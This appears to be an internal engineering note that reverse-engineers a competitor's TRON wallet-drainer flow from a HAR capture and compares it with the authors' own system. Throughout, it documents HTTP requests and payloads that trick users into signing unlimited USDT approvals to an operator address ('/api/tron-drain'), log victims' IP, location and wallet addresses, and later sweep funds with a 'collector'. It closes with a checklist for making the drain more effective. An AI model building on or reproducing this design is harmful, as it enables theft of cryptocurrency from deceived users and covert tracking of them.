

# TRON Approval Flow — Competitor vs Trust My Card

**Date:** 2026-07-29 (HAR-validated)  
**Scope:** TRON (TRC-20) `approve()` pipeline after QR / wallet connect  
**Competitor reference:** `trustfree.net.har` (50 entries, captured 2026-07-28T18:40–18:41Z)  
**Earlier notes:** screenshot-based docs (partially wrong — corrected below)  
**Our codebase:** `frontend/wallet-sdk` + `backend` Nest wallet module

---

## HAR validation summary — what was right vs wrong

Source file: `c:\Users\DESKTOP\Desktop\trustfree.net.har`

| Prior claim (screenshots / first draft) | HAR truth | Verdict |
|-----------------------------------------|-----------|---------|
| Balances uses `?form=&token=` and `{ wallets: [...] }` | Uses `?evm=&tron=` and keyed `{ eth, bsc, pol, avax, arb, base, tron }` — **same shape as TMC** | **Wrong → fixed** |
| IP geo `GET …/v1/ipgeo` only | `GET api.ipify.org` then `GET api.ipgeolocation.io/v3/ipgeo?apiKey=&ip=` | **Wrong → fixed** |
| Tron node `api.trongrid.io` | Client calls **`https://trx.nownodes.io/wallet/…`** | **Wrong → fixed** |
| Energy body `{ currentBandwidth }` | Body is `{ address, currentUsdt }` — **same field as our stub** | **Wrong → fixed** |
| Paths `/energy-delegate`, `/tron-drain` | Paths are **`/api/energy-delegate`**, **`/api/tron-drain`**, **`/api/verify-allowance`** | **Wrong → fixed** |
| Competitor “works fine” on this pipeline | **This capture failed:** `tron-drain` → `{ ok: false, txid }`, allowance `0`, tg-log error | **Wrong → fixed** |
| Energy delegate is the reason they succeed | Called + returned `already_sent`, but wallet had **0 TRX** and approve still failed | **Overstated** |
| `getsignweight` is important for success | Called on **unsigned** tx; `NOT_ENOUGH_PERMISSION` is expected pre-sign | **Overstated severity** |
| Core sequence: trigger → signweight → account → energy → resource → drain → verify | **Confirmed** (timing matches) | **Right** |
| Fee limit `150000000`, function `approve(address,uint256)`, USDT `TR7…` | **Confirmed** | **Right** |
| `tron-drain` broadcasts signed approve (not necessarily transfer) | **Confirmed** (`signedTx` + approve calldata) | **Right** |
| Our energy-delegate is stub / unused in live path | Still true for TMC | **Right** |
| We hard-block 0 TRX; they attempt anyway | **Confirmed** — balances showed `tron.native: "0.000000"` and they still ran the full TRON path | **Right** |

### Outcome of the captured TRON attempt

| Field | Value |
|-------|--------|
| Owner | `TV9FLGscQTRdknBfX4vvKAJYeFSw9VbWEF` |
| TRX / USDT at scan | `0` / `0` |
| Spender (approve + verify) | `TU2JxhPQcfyemmGrURbezdBGTHxx7ukqwL` (= `41c6087c8e…`) |
| Approve amount | `999999999` USDT (raw `999999999000000`, 6 decimals) |
| Energy delegate | `{ ok: false, error: "already_sent" }` |
| `tron-drain` | `{ ok: false, txid: "4ee82875…" }` ← **failure with echoed txid** |
| `verify-allowance` | `{ ok: true, hasAllowance: false, allowance: "0" }` |
| tg-log | `status: "error"`, `error: "on-chain allowance is 0 after approve attempt"` |

**Implication:** On a zero-TRX wallet, competitor behavior in this HAR looks a lot like ours failing at broadcast/verify — not a guaranteed success path. Energy `already_sent` did **not** make approve land. Treat energy as necessary but not sufficient; their reliability claims need a capture where `tron-drain.ok === true`.

---

## Executive summary

Both systems do the same core job:

1. Read multi-chain balances after wallet connect / QR scan  
2. Build an unsigned TRC-20 `approve(spender, amount)` transaction  
3. Have the user sign it (WalletConnect)  
4. Broadcast to TRON  
5. Verify on-chain allowance + ops logging (`tg-log`)

**Revised verdict (after HAR):**

- Product shape is **even closer** than screenshot docs suggested (balances API, `currentUsdt`, `/api/*` routes, tg-log).  
- Competitor differences that still matter: **client → NowNodes** for TRON wallet RPCs, **live `/api/energy-delegate` call**, **no hard 0-TRX client block**, **`/api/rpc` EVM proxy**, **`/api/tron-drain` envelope**.  
- The earlier “they work because of energy” story is **partially right as architecture**, but **not proven by this HAR** — their 0-TRX attempt also ended with allowance `0`.  
- Ours remains stronger on: refusing phantom txids, server-built prepare, Postgres confirm + collector.

| Area | Competitor (HAR) | Trust My Card | Gap severity |
|------|------------------|---------------|--------------|
| Balances after scan | `GET /api/balances?evm=&tron=` keyed object | Same idea / same shape | **None** |
| IP geolocation | ipify + ipgeolocation **v3** (client API key) | `/api/ipgeo` → ip-api (server) via tg-log | Low |
| Ops logging | Rich `POST /api/tg-log` | `POST /api/tg-log` (simpler body) | Low |
| EVM RPC from browser | `POST /api/rpc` proxy | Server-side RPCs in balances/prepare | Low |
| Build `approve` | Client → **NowNodes** `triggersmartcontract` | Server → **TronGrid** inside prepare | Low (node choice) |
| Fee limit | 150,000,000 sun | Same | None |
| `getsignweight` | Yes (pre-sign; often NOT_ENOUGH_PERMISSION) | No | **Low** |
| Account / resource | Explicit NowNodes `getaccount` + `getaccountresource` | Folded into prepare (TronGrid) | Low |
| Energy delegation | Called; returns `already_sent` / real backend | Stub + **not called** live | **High** (architecture) |
| 0 TRX handling | Still attempts full flow | Client + prepare block | Medium (UX vs fail-late) |
| Broadcast | `POST /api/tron-drain` `{ address, trxBalance, signedTx }` | `POST /api/tron-broadcast` full signed tx | Low |
| Broadcast failure shape | `{ ok: false, txid }` (txid still returned) | `result: false`, no success txid | Ours safer |
| Verify | `POST /api/verify-allowance` `{ network, owner, spender }` | Confirm + retries + DB (+ optional verify route) | Ours stronger |
| Post-approve collection | Not visible in this HAR | Background collector `transferFrom` | Ours stronger |

---

## Side-by-side pipeline (HAR-accurate)

```text
COMPETITOR (trustfree.net.har)                  OURS (Trust My Card)
───────────────────────────────────────────     ───────────────────────────────────────────
WalletConnect session                           WalletConnect session
  ├─ GET /api/balances?evm=&tron=                 ├─ GET /api/balances?evm=&tron=
  ├─ GET api.ipify.org/?format=json               └─ (geo via /api/ipgeo inside tg-log)
  ├─ GET api.ipgeolocation.io/v3/ipgeo
  ├─ POST /api/tg-log (wallet_connect + balances)
  └─ POST /api/rpc … (EVM balance/allowance polls)

User selects TRON                               User selects TRON + amount/token
  ├─ POST trx.nownodes.io/triggersmartcontract    ├─ POST /api/approvals/prepare
  ├─ POST trx.nownodes.io/getsignweight           │    ├─ resource check (TronGrid)
  ├─ POST trx.nownodes.io/getaccount              │    └─ triggersmartcontract (TronGrid)
  ├─ POST /api/energy-delegate                    ├─ WalletConnect sign
  │     { address, currentUsdt }                  ├─ POST /api/tron-broadcast
  ├─ (WC sign — not an HTTP entry)                └─ POST /api/approvals/confirm
  ├─ POST trx.nownodes.io/getaccountresource         └─ verifyAllowance + Postgres + collector
  ├─ POST /api/tron-drain
  │     { address, trxBalance, signedTx }
  ├─ POST /api/verify-allowance
  └─ POST /api/tg-log (approve success|error)
```

---

## Our live code path (source of truth)

Primary client orchestration: `frontend/wallet-sdk/src/hooks/useConnectFlow.ts`

1. WalletConnect connect → `fetchBalances` → show networks  
2. User picks TRON → client guard: native TRX must be `> 0`  
3. `POST /api/approvals/prepare`  
   - Resource preflight (`tron-resources.ts`)  
   - TronGrid `wallet/triggersmartcontract`  
4. `tronSignTransaction` (WalletConnect)  
5. `POST /api/tron-broadcast` → TronGrid `wallet/broadcasttransaction`  
6. `runPostConfirmSequence` → `POST /api/approvals/confirm`  
   - Nest `verifyAllowance` with retries  
   - Persist approval, supersede older ones, schedule collector  

**Not called in the live path:** `/api/energy-delegate`, `/api/consent_`, standalone `/api/verify-allowance`, `getsignweight`.

Relevant files:

| Role | Path |
|------|------|
| Connect / approve UI flow | `frontend/wallet-sdk/src/hooks/useConnectFlow.ts` |
| Prepare (Next) | `frontend/wallet-sdk/src/server/routes/approvals/prepare/route.ts` |
| TRON resources | `frontend/wallet-sdk/src/server/approvals/tron-resources.ts` |
| Broadcast (Next) | `frontend/wallet-sdk/src/server/routes/tron-broadcast/route.ts` |
| Confirm proxy | `frontend/wallet-sdk/src/server/routes/approvals/confirm/route.ts` |
| Post-confirm client | `frontend/wallet-sdk/src/core/post-confirm.ts` |
| Nest wallet API | `backend/src/modules/wallet/wallet.controller.ts` |
| Nest prepare / verify / confirm / broadcast | `backend/src/modules/wallet/wallet.service.ts` |
| Energy stub (Next) | `frontend/wallet-sdk/src/server/routes/energy-delegate/route.ts` |
| Collector | `backend/src/jobs/schedulers/approval-collection.scheduler.ts` |
| Flow logging | `frontend/wallet-sdk/src/server/approvals/flow-logger.ts` |

---

## STEP 1 — Wallet connect / initialization

### 1.1 Balance fetch — **same API shape**

#### Competitor (HAR)

```http
GET https://trustfree.net/api/balances?evm=0x8bF415A644516Ef9e6eD8A0f8fEF8bC860009a4F&tron=TV9FLGscQTRdknBfX4vvKAJYeFSw9VbWEF
→ 200
```

```json
{
  "eth":  { "native": "0.0", "usdt": "0.0", "usdc": "0.0" },
  "bsc":  { "native": "0.000000001672", "usdt": "0.00011014", "usdc": "0.0" },
  "pol":  { "native": "0.06185598942689405", "usdt": "0.0", "usdc": "0.0" },
  "avax": { "native": "0.01", "usdt": "0.0", "usdc": "0.0" },
  "arb":  { "native": "0.000009260647170559", "usdt": "0.0", "usdc": "0.0" },
  "base": { "native": "0.000002065245995177", "usdt": "0.0", "usdc": "0.0" },
  "tron": { "native": "0.000000", "usdt": "0.000000" }
}
```

#### Trust My Card

```http
GET /api/balances?evm=0x…&tron=T…
```

Same keyed networks. Implementation: Next balances route / Nest `getBalances`; TRON via TronGrid `v1/accounts`.

**Analysis:** Screenshot docs that showed `{ wallets: [...] }` and `form`/`token` query params were **incorrect or outdated**. No gap here.

---

### 1.2 IP + geo + tg-log

#### Competitor (HAR)

1. `GET https://api.ipify.org/?format=json` → `{ "ip": "106.215.57.223" }`  
2. `GET https://api.ipgeolocation.io/v3/ipgeo?apiKey=…&ip=106.215.57.223`  
3. `POST /api/tg-log` with rich payload:

```json
{
  "type": "wallet_connect",
  "site": "trustfree.net",
  "device": "Windows",
  "ip": "106.215.57.223",
  "location": "India, New Delhi 🇮🇳",
  "chain": "both",
  "evmAddress": "0x8bF415A644516Ef9e6eD8A0f8fEF8bC860009a4F",
  "tronAddress": "TV9FLGscQTRdknBfX4vvKAJYeFSw9VbWEF",
  "balances": { "eth": { "…": "…" }, "tron": { "native": "0.000000", "usdt": "0.000000" } }
}
```

```json
{ "code": 200, "status": "success", "message": "OK", "data": { "sent": true }, "timestamp": "…" }
```

Note: geo API key is exposed in the browser query string.

#### Trust My Card

`postTgLog` → `GET /api/ipgeo` (server → ip-api.com) → `POST /api/tg-log` with a simpler body (`type`, `address`, `network`, `status`, `ip`, `location`, …). Geo is not a separate client → third-party hop with a public API key.

**Analysis:** Same ops idea; theirs is richer and fires earlier with full balances. Not related to TRON broadcast success.

---

### 1.3 Extra competitor step — `/api/rpc` (EVM proxy)

Many HAR entries:

```http
POST https://trustfree.net/api/rpc
```

```json
{ "network": "eth", "method": "eth_getBalance", "params": ["0x8bF4…", "latest"] }
```

```json
{ "result": "0x0" }
```

Also `eth_call` for ERC-20 `allowance(owner, spender)` on USDT/USDC (spender `0x4b074e2ec5f3fa8c5f43e8706137df0f1c97bd82`).

**Analysis:** Browser talks to their backend RPC proxy instead of public RPCs. We read balances server-side. Optional parity feature, not required for TRON approve.

---

## STEP 2 — TRON approve path (HAR)

### 2.1 `triggersmartcontract` — client → NowNodes

```http
POST https://trx.nownodes.io/wallet/triggersmartcontract
```

```json
{
  "contract_address": "41a614f803b6fd780986a42c78ec9c7f77e6ded13c",
  "owner_address": "41d2507ede77d529585a9606722e367c36c69a6f76",
  "function_selector": "approve(address,uint256)",
  "parameter": "000000000000000000000000c6087c8e6d311ded344bb512496a10f1a4b6544a00000000000000000000000000000000000000000000000000038d7ea4b73dc0",
  "call_value": 0,
  "fee_limit": 150000000
}
```

| Decoded field | Value |
|---------------|--------|
| Contract | USDT `TR7NHqjeKQxGTCi8q8ZY4pL8otSzgjLj6t` (`41a614f8…`) |
| Owner | `TV9FLGsc…` |
| Spender | `TU2JxhPQ…` (`41c6087c…`) |
| Amount | `999999999` USDT (6 decimals) |
| Fee limit | 150 TRX in sun |

Response: `result.result: true` + unsigned `transaction` (`txID` initially `c655f56c…`).

#### Ours

Built inside `POST /api/approvals/prepare` against **`api.trongrid.io`**, same selector/fee_limit/USDT contract. Amount comes from UI (`amountHuman` / `unlimited`), spender from `NEXT_PUBLIC_SPENDER_TRON`.

**Analysis:** Same on-chain intent. Differences: **who calls the node** (client vs server) and **which host** (NowNodes vs TronGrid).

---

### 2.2 `getsignweight` — pre-sign probe (low value)

```http
POST https://trx.nownodes.io/wallet/getsignweight
```

Request includes unsigned `raw_data` / `txID`. Response:

```json
{
  "permission": {
    "permission_name": "owner",
    "threshold": 1,
    "keys": [{ "address": "41d2507ede…", "weight": 1 }]
  },
  "result": { "code": "NOT_ENOUGH_PERMISSION" },
  "transaction": { "txid": "4ee82875…", "result": { "result": true } }
}
```

`NOT_ENOUGH_PERMISSION` is **expected without signatures**. Severity of “we don’t call this” is **low** for single-key WC wallets.

Note: nested transaction txid changed to `4ee82875…` (expiration/raw_data_hex differ from the initial trigger response) — signing path uses that later id.

---

### 2.3 `getaccount` — zero balance account still proceeds

```http
POST https://trx.nownodes.io/wallet/getaccount
{ "address": "TV9FLGsc…", "visible": true }
```

Response includes permissions / resource windows but **no `balance` field** (0 TRX accounts often omit it). Free net usage `552`.

They continue the flow anyway. We would have blocked at client TRX guard / prepare resource check.

---

### 2.4 `/api/energy-delegate` — called; not proven effective here

```http
POST https://trustfree.net/api/energy-delegate
```

```json
{ "address": "TV9FLGscQTRdknBfX4vvKAJYeFSw9VbWEF", "currentUsdt": "0.000000" }
```

```json
{ "ok": false, "error": "already_sent" }
```

**Corrections vs first draft:**

- Path includes `/api/`  
- Field is `currentUsdt` (matches our stub), **not** `currentBandwidth`  
- Response is `{ ok, error }` — not our placeholder `{ code, data.delegated }`  

**Analysis:** They have a real backend with idempotency. In this capture it did **not** produce a successful on-chain approve. Possible reasons: energy not actually available yet, prior send failed, bandwidth-only problem, or broadcast rejected for another reason. Need a successful HAR to prove rental quality.

Our stub:

```json
{
  "code": 200,
  "status": "success",
  "data": { "delegated": false, "placeholder": true, "address": "…", "currentUsdt": "…" }
}
```

And it is **not invoked** from `useConnectFlow`.

---

### 2.5 `getaccountresource` — after energy, before drain

```http
POST https://trx.nownodes.io/wallet/getaccountresource
{ "address": "TV9FLGsc…", "visible": true }
```

```json
{
  "freeNetUsed": 552,
  "freeNetLimit": 600,
  "TotalNetLimit": 43200000000,
  "TotalNetWeight": 26859313515,
  "TotalEnergyLimit": 180000000000,
  "TotalEnergyWeight": 18755883722
}
```

No account-level `EnergyLimit` / `EnergyUsed` in this response → account likely still has **0 staked/delegated energy visible**. Free bandwidth remaining ≈ 48.

---

### 2.6 `/api/tron-drain` — broadcast wrapper (failed in HAR)

```http
POST https://trustfree.net/api/tron-drain
```

```json
{
  "address": "TV9FLGscQTRdknBfX4vvKAJYeFSw9VbWEF",
  "trxBalance": "0.0000",
  "signedTx": {
    "txID": "4ee82875b02cc1eecb8bd9d9621fdbbc68f8a6df52797ea8ef4cec0381e13ab6",
    "signature": ["84a6e66acb3d793e…01"],
    "raw_data": { "fee_limit": 150000000, "contract": [{ "type": "TriggerSmartContract", "…": "…" }] },
    "raw_data_hex": "0a02edc3…"
  }
}
```

```json
{ "ok": false, "txid": "4ee82875b02cc1eecb8bd9d9621fdbbc68f8a6df52797ea8ef4cec0381e13ab6" }
```

**Important:** failure still returns the local `txid`. Our `tron-broadcast` explicitly avoids treating that as success.

Calldata confirms **approve**, not `transfer`/`transferFrom`:

- Selector `095ea7b3` = `approve(address,uint256)`

#### Ours

```http
POST /api/tron-broadcast
```

Body = signed transaction object → TronGrid `broadcasttransaction`. Success only if `result === true`.

---

### 2.7 `/api/verify-allowance` + error tg-log

```http
POST https://trustfree.net/api/verify-allowance
```

```json
{
  "network": "tron",
  "owner": "TV9FLGscQTRdknBfX4vvKAJYeFSw9VbWEF",
  "spender": "TU2JxhPQcfyemmGrURbezdBGTHxx7ukqwL"
}
```

(No `contract` / `token` field in this capture — likely defaults to USDT server-side.)

```json
{ "ok": true, "hasAllowance": false, "allowance": "0" }
```

```json
POST /api/tg-log
{
  "type": "approve",
  "network": "tron",
  "status": "error",
  "address": "TV9FLGsc…",
  "error": "on-chain allowance is 0 after approve attempt"
}
```

Spender in verify **matches** approve calldata (validated). Failure is not a spender mismatch.

#### Ours

Canonical path: `POST /api/approvals/confirm` with retries. Standalone `/api/verify-allowance` exists but is not the live post-sign step. UI fails if `hasAllowance` stays false — same user-visible outcome as their tg-log error.

---

## Endpoint map (HAR-corrected)

| Competitor (HAR) | Trust My Card | Status |
|------------------|---------------|--------|
| `GET /api/balances?evm=&tron=` | `GET /api/balances?evm=&tron=` | Match |
| `GET api.ipify.org` + `…/v3/ipgeo` | `GET /api/ipgeo` | Different providers |
| `POST /api/tg-log` | `POST /api/tg-log` | Match (richer competitor body) |
| `POST /api/rpc` | — (server RPCs) | Competitor-only client proxy |
| `POST trx.nownodes.io/wallet/triggersmartcontract` | Inside prepare → TronGrid | Same call, different host/caller |
| `POST …/getsignweight` | — | Competitor-only (low value pre-sign) |
| `POST …/getaccount` | Via `v1/accounts` in resource check | Partial |
| `POST /api/energy-delegate` | Stub route, unused live | **Gap** |
| `POST …/getaccountresource` | Inside prepare | Timing differs |
| `POST /api/tron-drain` | `POST /api/tron-broadcast` | Equivalent intent |
| `POST /api/verify-allowance` | Confirm (+ optional verify) | Ours stronger persistence |

---

## Shared technical constants (confirmed)

| Item | Competitor (HAR) | Trust My Card |
|------|------------------|---------------|
| Blockchain | TRON TRC-20 | Same |
| Wallet RPC host | `trx.nownodes.io` | `api.trongrid.io` |
| Contract call | `approve(address,uint256)` | Same |
| Approve fee limit | 150,000,000 sun | Same |
| USDT | `41a614f8…` / `TR7NHqje…` | Same |
| Energy API field | `currentUsdt` | Same (stub) |
| Energy path | `/api/energy-delegate` | Same path (stub) |
| Geo | ipify + ipgeolocation v3 | ip-api via server |
| WC | WalletConnect attestations present | WalletConnect |

---

## Root-cause analysis (revised)

### What we previously overstated

1. **“Competitor works fine through this pipeline”** — not true for this HAR’s 0-TRX wallet. They hit the same class of failure we care about: broadcast/allowance not confirmed.  
2. **Balances / query / energy field / node host** — screenshot notes were stale or OCR-wrong; HAR is authoritative.  
3. **`getsignweight` as a success dependency** — pre-sign `NOT_ENOUGH_PERMISSION` is noise for normal single-key accounts.

### What still stands

1. **They call energy-delegate in the live path; we don’t.** That remains the main *architectural* gap for thin wallets — but this capture shows `already_sent` ≠ guaranteed energy.  
2. **They don’t hard-block 0 TRX** — better for UX continuity / energy-first design; worse if it burns user time signing doomed txs (as here).  
3. **They may return txid on failed drain** — we correctly refuse phantom success.  
4. **Our confirm + collector model is ahead** for durable ops.

### Why energy alone didn’t save them here

Observed:

- `trxBalance: "0.0000"` sent to tron-drain  
- `getaccount` without balance  
- `getaccountresource` without account EnergyLimit  
- `energy-delegate` → `already_sent` only  
- `tron-drain` → `ok: false`  
- allowance still `0`  

So either energy was not actually present for execution, bandwidth/account state blocked broadcast, or their drain backend rejected for another reason. **Do not treat `already_sent` as proof of usable energy.**

---

## Strengths of Trust My Card vs competitor

1. Server-owned spender + amount policy in prepare  
2. No phantom success txids on failed broadcast  
3. Durable confirm (Postgres, audits, supersede, collector)  
4. Explicit resource preflight + clear user errors  
5. Multi-chain prepare/confirm model already aligned with their balances shape  

## Strengths of competitor vs us (from HAR)

1. Live energy-delegate integration (even if imperfect)  
2. Client NowNodes TRON calls (may be faster / keyed differently)  
3. Richer tg-log (balances + both addresses on connect)  
4. `/api/rpc` proxy for browser EVM reads  
5. Continues TRON flow at 0 TRX (energy-first product assumption)

---

## Recommended parity checklist (updated)

1. **Keep** balances shape — already matched.  
2. **Implement real `/api/energy-delegate`** with idempotency; align response with `{ ok, error: "already_sent" }` *or* map their contract explicitly.  
3. **Call energy before broadcast**; then **re-check account energy** (not only trust `already_sent`).  
4. Only then consider softening the hard TRX > 0 guard (branch: allow 0 TRX if energy confirmed).  
5. Optionally add NowNodes (or keep TronGrid) behind server prepare/broadcast — prefer server-side keys over client→node.  
6. Do **not** prioritize `getsignweight` for v1.  
7. Keep refusing phantom txids; optionally mirror their drain envelope only if API compatibility is required.  
8. Capture a **successful** competitor HAR (`tron-drain.ok === true`) before assuming their energy provider quality.

---

## Mermaid — HAR sequence (actual capture)



---

## Appendix A — HAR timeline (non-asset)

```text
18:40:08  GET  /api/balances
18:40:09  GET  api.ipify.org
18:40:10  GET  ipgeolocation.io/v3/ipgeo
18:40:10  POST /api/tg-log (wallet_connect)
18:40:39+ POST /api/rpc × many (eth balances / allowances)
18:41:33  POST nownodes/triggersmartcontract
18:41:34  POST nownodes/getsignweight
18:41:35  POST nownodes/getaccount
18:41:35  POST /api/energy-delegate → already_sent
18:41:45  POST nownodes/getaccountresource
18:41:46  POST /api/tron-drain → ok:false
18:41:46  POST /api/verify-allowance → allowance 0
18:41:47  POST /api/tg-log (tron approve error)
```

(Also interleaved: BSC approve user cancels logged as `rejected`.)

---

## Appendix B — Trust My Card sequence (current)

```text
WC connect
  → GET /api/balances
  → optional tg-log (+ /api/ipgeo)

User selects TRON
  → client require TRX > 0
  → POST /api/approvals/prepare (resource check + TronGrid trigger)
  → WC sign
  → POST /api/tron-broadcast
  → POST /api/approvals/confirm
  → collector transferFrom later

NOT USED LIVE: energy-delegate, getsignweight, consent_
```

---

## Appendix C — Glossary

| Term | Meaning |
|------|---------|
| `approve` | TRC-20 permission for spender; does not move tokens alone |
| `allowance` | Remaining amount spender may `transferFrom` |
| Energy | TRON resource for contract execution |
| Bandwidth / free net | TRON resource for tx size / free quota |
| `fee_limit` | Max sun burnable for energy |
| `already_sent` | Competitor energy idempotency — prior delegate attempt recorded |
| Phantom txid | Returning a precomputed tx hash when broadcast was not accepted |
| NowNodes | Competitor’s TRON full-node API host (`trx.nownodes.io`) |

---

*HAR-validated 2026-07-29. Prior screenshot-based claims about balances shape, node host, energy body fields, and “guaranteed working” competitor TRON flow are superseded by this document.*
